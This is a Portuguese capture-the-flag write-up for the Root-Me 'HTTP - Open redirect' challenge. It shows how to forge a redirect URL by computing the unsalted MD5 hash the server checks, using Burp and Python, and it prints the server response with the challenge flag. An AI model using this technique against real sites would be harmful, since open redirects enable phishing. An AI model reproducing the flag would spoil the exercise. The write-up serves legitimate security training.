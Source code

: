 # HTTP - Open redirect 

Checando o código fonte, inspecionando elemento ou copiando o link, encontramos:

  - https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134

  - https://twitter.com&h=be8b09f7f1f66235a9c91986952483f0

  - https://slack.com&h=e52dc719664ead63be3d5066c135b6da

A validação é feita por meio de hash MD5:

<pre>root@kali:~# hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: a023cfbf5f1c39bdf8407f28b60cd134

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))</pre>

É possível capturar a requisição com [Burp Suit](https://portswigger.net/burp) ou com a extensão [HTTP Header Live](https://addons.mozilla.org/pt-BR/firefox/addon/http-header-live/) de firefox, edita-la e fazer o reenvio:

Podemos gerar o hash md5 de https://google.com, enviar e olhar a resposta da requisição com Burp Suit:

<pre>root@kali:~# python2.7
Python 2.7.17 (default, Oct 19 2019, 23:36:22)
[GCC 9.2.1 20191008] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import md5
>>> md5.new('https://google.com').digest().encode('hex')
'99999ebcfdb78df077ad2727fd00969f'</pre>

## Resposta

http://challenge01.root-me.org/web-serveur/ch52/?url=https://google.com&h=99999ebcfdb78df077ad2727fd00969f

<pre>HTTP/1.1 200 OK
Server: nginx
Date: Thu, 30 Jan 2020 20:03:20 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Content-Length: 1027

<!DOCTYPE html>
<html>
<head>
        <title>HTTP - Open redirect</title>
</head>


<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
        <p>Well done, the flag is e6f8a530811d5a479812d7b82fc1a5c5</p><script>document.location = 'https://google.com';</script></pre>
